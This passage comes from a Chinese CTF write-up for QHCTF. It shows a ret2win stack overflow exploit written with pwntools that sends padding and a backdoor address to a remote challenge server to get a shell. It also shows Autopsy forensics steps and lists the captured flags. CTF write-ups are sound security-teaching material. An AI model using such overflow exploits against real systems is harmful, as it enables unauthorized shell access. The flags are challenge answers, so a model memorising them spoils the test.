 ![](https://cdn.nlark.com/yuque/0/2025/png/49967934/1737797008908-cee8d9e1-96db-49a8-bd22-f6d21309e873.png)



## 8.Pwn
IDA反编译发现有read()函数，可借此栈溢出

![](https://cdn.nlark.com/yuque/0/2025/png/49967934/1737809124192-b371334c-c971-444e-9221-4885012478d7.png)

发现后门函数

![](https://cdn.nlark.com/yuque/0/2025/png/49967934/1737809175740-295d9478-f387-4572-9e87-d57bb9c361f8.png)

![](https://cdn.nlark.com/yuque/0/2025/png/49967934/1737809193367-9b35094c-d222-46b9-8849-daa4664f63d8.png)

构造pyload(注意16字节对齐 #secret地址+1可对齐)

```plain
from  pwn import *
#io=process("./pwn")
io=remote("154.64.425.108","9999")
getshell_addre=0x4011c7  
padding=0x50+8
payload=b"a"*padding+p64(getshell_addre);
io.sendline(payload)
io.interactive()

```

![](https://cdn.nlark.com/yuque/0/2025/png/49967934/1737807626603-34bdc584-decf-4acf-b544-fcf147572185.png)

QHCTF{542990f2-ee3e-43fa-b8d8-eb509f37c125}



## 9.复现取证
### （1）Win_04
![](https://cdn.nlark.com/yuque/0/2025/png/49967934/1737877461218-57303e5e-f50f-4775-91e8-56b0e87e7d90.png)

用Autopsy加载镜像文件，然后再Admin的Desktop中看到一个reg表，下载下来搜索qhctf拿到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49967934/1737877501821-a43a7a66-75c6-4bae-b552-382824b505e8.png)

![](https://cdn.nlark.com/yuque/0/2025/png/49967934/1737877578131-ed9d6a97-0580-4678-82a4-f24b1f6371f3.png)

QHCTF{c980ad20-f4e4-4e72-81a0-f227f6345f01}

### （2）Win_07
![](https://cdn.nlark.com/yuque/0/2025/png/49967934/1737877678386-15f94584-86f2-4f07-832a-301c716d59b4.png)

先查看最近文档
